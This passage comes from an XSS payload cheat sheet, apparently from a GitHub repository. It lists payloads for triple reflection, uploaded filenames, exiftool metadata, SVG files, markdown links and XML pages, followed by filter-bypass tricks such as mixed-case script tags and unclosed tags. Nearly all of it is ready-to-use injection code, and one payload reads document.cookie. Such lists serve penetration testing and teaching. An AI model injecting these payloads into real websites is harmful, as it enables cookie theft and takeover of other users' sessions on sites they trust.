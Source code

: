 13. Uses when there is multiple reflections on same page. (Triple Reflection)
```html
*/alert(1)">'onload="/*<svg/1='
`-alert(1)">'onload="`<svg/1='
*/</script>'>alert(1)/*<script/1='
```

* After input the payload
```html
<!DOCTYPE html>
<html>
<body>
*/alert(1)">'onload="/*<svg/1='
[...]
*/alert(1)">'onload="/*<svg/1='
[...]
*/alert(1)">'onload="/*<svg/1='
</body>
</html>
```

14. XSS in filename (File Upload) Use when uploaded filename is reflected somewhere in target page
```
"><svg onload=alert(1)>.jpeg
```

15. XSS in metadata (File Upload) Use when uploaded metada is reflected somewhere in target page (using exiftool)
```
$ exiftool -Artist='"><script>alert(1)</script>' dapos.jpeg
```

16. XSS with SVG file (File Upload)
```
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>
```

17. XSS via markdown
```
[Click Me](javascript:alert('1'))
```

18. XSS in XML page
```
<a:script xmlns:x="http://www.w3.org/1999/xhtml">alert(1)</a:script>
```
> Add a "-->" to payload if input lands in a comment section

> Add a "]]>" if input lands in a CDATA section

## **XSS Bypass**

1. Mixed Case
```html
<ScRiPt>AlErT(DoCuMeNt.CoOkIe)</ScRiPt> 
```

2. Unclosed Tags
```html
<svg onload="alert(1)"
```


[a]: (javascript:prompt(1))